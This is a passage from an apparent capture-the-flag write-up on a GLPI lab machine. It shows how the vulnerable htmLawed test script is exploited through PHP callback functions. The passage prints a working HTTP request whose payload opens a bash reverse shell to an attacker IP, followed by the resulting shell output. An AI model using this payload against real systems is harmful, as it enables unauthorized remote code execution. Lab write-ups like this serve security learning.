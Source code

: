 ![img](/assets/images/CTF/Proving_Grounds/GLPI/exp.png)

As mentioned in the exploit blog the exploitation is easy if the `exec` function is enabled in the settings and in our case the function has been disabled. So in order to achieve the remote code execution we have to use the callback functions like array_map,call_user_func,…

```http
POST /vendor/htmlawed/htmlawed/htmLawedTest.php HTTP/1.1
Host: 192.168.169.242
Content-Type: application/x-www-form-urlencoded
Content-Length: 127
Connection: close
Cookie: sid=bs


text=call_user_func&hhook=array_map&hexec=system&sid=bs&spec[0]=&spec[1]=bash+-c+'bash+-i+>%26+/dev/tcp/192.168.45.194/80+0>%261'
```

```sh
listening on [any] 80 ...
connect to [192.168.45.194] from (UNKNOWN) [192.168.169.242] 42674
bash: cannot set terminal process group (1084): Inappropriate ioctl for device
bash: no job control in this shell
www-data@glpi:/var/www/glpi/vendor/htmlawed/htmlawed$ 
```

**Initial Foothold Obtained**

## Privilege Escalation
